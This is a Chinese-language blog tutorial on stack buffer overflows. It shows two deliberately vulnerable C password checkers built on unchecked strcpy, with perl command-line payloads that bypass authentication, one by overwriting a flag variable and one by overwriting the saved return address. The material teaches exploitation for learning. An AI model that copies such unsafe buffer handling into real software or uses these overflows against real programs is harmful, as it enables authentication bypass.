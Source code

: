 [Bug Hunter]关于stack overflow Lesson II
=======================================

### 回顾
&emsp;&emsp;上一篇我们已经简单了解了stackoverflow的简单原理，以及怎么利用stackoverflow去控制程序的逻辑，本节Lesson更加深入的探讨一下stackoverflow的进一步利用点。这一个系列是根据博主本人的学习进度写成，所以速度可能偏慢，因为我也有活要干，同时我也是个新手。


### 例子一
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
	int auth_flag = 0;
	char password_buffer[16];

	strcpy(password_buffer, password);
	
	if(strcmp(password_buffer, "brillig") == 0)
		auth_flag = 1;
	if(strcmp(password_buffer, "outgrabe") == 0)
		auth_flag = 1;

	return auth_flag;
}

int main(int argc, char *argv[]) {
	if(argc < 2) {
		printf("Usage: %s <password>\n", argv[0]);
		exit(0);
	}
	if(check_authentication(argv[1])) {
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("      Access Granted.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
	} else {
		printf("\nAccess Denied.\n");
   }
}
```
	
&emsp;&emsp;本例是一个简单的认证判断，如果输入参数是`brillig`或者`outgrabe`，那么输出`Access Granted.`。显然这里也有一个stackoverflow的bug，在`strcpy`函数这里。在Stack上，`auth_flag`先入栈，`password_buffer`后入栈，所以`auth_flag`的地址比`password_buffer`高，这样就可以覆盖`auth_flag`的值。`gcc example.c -o example -g`，生成可执行程序。然后`gdb -tui example`获取一些必要的信息如下。  
<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/variable_distance.png" /><br>  


&emsp;&emsp;算得两地址之差为28，所以我们只需要复写完这28个字节再多复写4个字节就可以了。先看正常情况，`./example $(perl -e "print 'A' x 28")`，结果如下：  

> Access Denied.  

&emsp;&emsp;再看看复写stack情况，`./example $(perl -e "print 'A' x 32")`，结果如下：  

> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
>      Access Granted.  
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
> Segmentation fault  

&emsp;&emsp;虽然栈被写坏了，但是目的达成。  

### 例子二
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
	char password_buffer[16];
	int auth_flag = 0;

	strcpy(password_buffer, password);
	
	if(strcmp(password_buffer, "brillig") == 0)
		auth_flag = 1;
	if(strcmp(password_buffer, "outgrabe") == 0)
		auth_flag = 1;

	return auth_flag;
}

int main(int argc, char *argv[]) {
	if(argc < 2) {
		printf("Usage: %s <password>\n", argv[0]);
		exit(0);
	}
	if(check_authentication(argv[1])) {
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("      Access Granted.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
	} else {
		printf("\nAccess Denied.\n");
   }
}
```  
&emsp;&emsp;与例子一的唯一差别就是调换了`password_buffer`和`auth_flag`的位置，那么`auth_flag`的地址比`password_buffer`要低，这样就没法复写了，那么我们该怎么办呢？  
&emsp;&emsp;还记得Lesson I里我讲到的Stack的本质原理吗？一个函数调用的时候先是压栈，后`leave`弹栈，然后再`ret`返回，栈上其实保存着函数返回时的地址，这是地址会压入EIP/RIP，让我们直接`gdb`看一下就明白了。先`gcc example2.c -o example2 -g`，然后`gdb -tui example2 -q`。  

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/main_assembly.png" /><br>  
&emsp;&emsp;这里我们先注意一下`call   0x40063d <check_authentication>`之后会执行一个判断，就是调用`check_authentication`返回值的判断，我们跳过这个判断，直接执行`0x4006ef`的指令就可以输出`Access Granted`。那现在我们看看栈上保存的返回地址是多少，如下：  

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/ret_addr.png" /><br>  
&emsp;&emsp;返回地址是`0x4006eb`，也就是调用call之后的下一条指令，我们直接复写返回地址为`0x4006ef`，由于我用的是x86-64的机器，所以是little endian，所以地址得倒着写，执行`./example2 $(perl -e "print '\ef\06\40\00' x 3)`，结果如下： 
 
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
>       Access Granted.  
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
> Segmentation fault  


### 结语
&emsp;&emsp;本节提到的一点就是复写函数的返回地址，比复写变量的值更具有杀伤力，是不是呢？  
&emsp;&emsp;没点关注的点一波关注，谢谢！Have Fun！See You！
